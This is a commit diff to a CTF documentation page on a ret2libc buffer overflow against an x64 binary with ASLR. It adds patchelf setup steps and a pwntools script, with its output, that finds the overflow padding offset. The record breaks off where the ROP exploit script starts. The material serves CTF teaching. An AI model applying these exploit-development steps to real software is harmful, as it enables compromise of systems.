

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pwn/buffer-overflow/30-ret2libc-x64-aslr.md, in a window 1280 px wide and 1400 px high, scrolled down 793 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
add offset

````diff
--- a/docs/pwn/buffer-overflow/30-ret2libc-x64-aslr.md
+++ b/docs/pwn/buffer-overflow/30-ret2libc-x64-aslr.md
@@ -40,9 +40,67 @@ $ pwn checksec vuln
 
 `NX` is enabled, so we can't run our shellcode on the stack. Also, `ASLR` is enabled on the remote TCP service.
 
-To bypass `NX`, we will use a ROPChain. To bypass `ASLR`, we will leak the address of a function (in the GOT) to calculate the base address of `libc` and call the `main` function again to executes our final payload with the right offsets.
+To run the binary, I needed to remove a library with [patchelf](https://github.com/NixOS/patchelf).
 
-Source code :
+```
+$ ls
+libc.so.6  vuln
+$ ldd vuln
+        linux-vdso.so.1 (0x00007ffc9eded000)
+        libc.so.6 => ./libc.so.6 (0x00007f3b9fe00000)
+        /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007f3ba03e0000)
+$ ./vuln
+Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!
+
+$ patchelf --remove-rpath /lib64/ld-linux-x86-64.so.2 vuln
+$ ./vuln
+WeLcOmE To mY EcHo sErVeR!
+AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
+AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAa
+^C
+```
+
+Let's try to calculate the size of the padding of the buffer overflow. Source code :
+
+```python
+#!/usr/bin/env python3
+from pwn import process, p64, cyclic, cyclic_find
+
+
+PROGRAM = "./vuln"
+
+def find_padding_size():
+    proc = process(PROGRAM)
+    pattern = cyclic(0xFF)
+
+    proc.sendlineafter(b"WeLcOmE To mY EcHo sErVeR!\n", pattern)
+    proc.wait()
+
+    core = proc.corefile
+    seg_addr = int(f"0x{hex(core.fault_addr)[-8:]}", 16)
+
+    return cyclic_find(seg_addr)
+
+
+if __name__ == "__main__":
+    padding = find_padding_size()
+    print("Padding size:", padding)
+```
+
+Execution :
+
+```
+$ python3 calc_padding.py
+[+] Starting local process './vuln': pid 105001
+[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 105001)
+[+] Parsing corefile...: Done
+...
+Padding size: 136
+```
+
+---
+
+To bypass `NX`, we will use a ROPChain. To bypass `ASLR`, we will leak the address of a function (in the GOT) to calculate the base address of `libc` and call the `main` function again to executes our final payload with the right offsets. Source code :
 
 ```python
 #!/usr/bin/env python3
````
